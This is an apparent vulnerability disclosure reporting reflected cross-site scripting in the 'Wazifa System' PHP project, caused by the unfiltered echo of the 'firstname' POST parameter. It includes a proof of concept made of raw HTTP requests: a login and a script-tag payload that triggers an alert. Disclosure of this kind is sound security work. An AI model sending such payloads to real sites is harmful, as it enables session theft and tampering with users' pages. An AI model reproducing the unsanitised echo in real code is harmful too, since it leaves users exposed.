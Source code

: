 # Wazifa System has Cross Site Scripting vulnerability in /controllers/updatesettings.php

## supplier 
https://code-projects.org/wazifa-system-in-php-css-js-and-mysql-free-download/

## Vulnerability file

/controllers/updatesettings.php

## describe

The /controllers/updatesettings. php file in this system retrieves the parameter 'firstname' and echo it, creating a cross site scripting vulnerability

**Code analysis**    

echo firstname value in no filter in /controllers/updatesettings.php

```
echo $_POST['firstname'];
```

![image-20241129001254081](https://github.com/user-attachments/assets/ffc7d21b-107c-47a3-b2e6-51a0e9da20d8)

## POC

login into the system

```
POST /controllers/logincontrol.php HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/login.php
Cookie: PHPSESSID=3kospkmbqtu3riei9610culh61
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=ahmed&password=12345
```

Trigger cross site scripting vulnerability to execute alert statement

```
POST /controllers/updatesettings.php/ HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/controllers/updatesettings.php/
Cookie: PHPSESSID=3kospkmbqtu3riei9610culh61
Upgrade-Insecure-Requests: 1
Priority: u=0, i

firstname=%3Cscript%3Ealert%281111111%29%3B%3C%2Fscript%3E
```

**Result**

![image-20241129001232943](https://github.com/user-attachments/assets/eff8d0c0-3be7-43c1-85c8-4d1e17c7b546)
